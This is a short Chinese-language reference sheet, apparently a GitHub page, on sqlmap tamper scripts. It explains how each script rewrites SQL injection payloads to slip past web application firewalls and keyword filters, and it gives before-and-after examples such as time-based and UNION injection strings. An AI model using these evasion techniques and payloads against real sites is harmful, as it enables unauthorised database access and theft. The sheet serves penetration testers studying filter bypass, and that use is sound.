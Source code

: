 # SQLMAP--Tamper

`--identify-waf`

### 0x02 常用tamper脚本

#### **apostrophemask.py**

适用数据库：ALL 
作用：将引号替换为utf-8，用于过滤单引号 
使用脚本前：`tamper("1 AND '1'='1")` 
使用脚本后：`1 AND %EF%BC%871%EF%BC%87=%EF%BC%871`

#### **base64encode.py**

适用数据库：ALL 
作用：替换为base64编码 
使用脚本前：`tamper("1' AND SLEEP(5)#")` 
使用脚本后：`MScgQU5EIFNMRUVQKDUpIw==`

#### **multiplespaces.py**

适用数据库：ALL 
作用：围绕sql关键字添加多个空格 
使用脚本前：`tamper('1 UNION SELECT foobar')` 
使用脚本后：`1 UNION SELECT foobar`

#### **space2plus.py**

适用数据库：ALL 
作用：用加号替换空格 
使用脚本前：`tamper('SELECT id FROM users')` 
使用脚本后：`SELECT+id+FROM+users`

#### **nonrecursivereplacement.py**

适用数据库：ALL 
作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空） 
使用脚本前：`tamper('1 UNION SELECT 2--')` 
使用脚本后：`1 UNIOUNIONN SELESELECTCT 2--`

#### **space2randomblank.py**

适用数据库：ALL 
作用：将空格替换为其他有效字符 
使用脚本前：`tamper('SELECT id FROM users')` 
使用脚本后：`SELECT%0Did%0DFROM%0Ausers`

#### **unionalltounion.py**

适用数据库：ALL 
作用：将`union allselect` 替换为`unionselect` 
使用脚本前：`tamper('-1 UNION ALL SELECT')` 
使用脚本后：`-1 UNION SELECT`
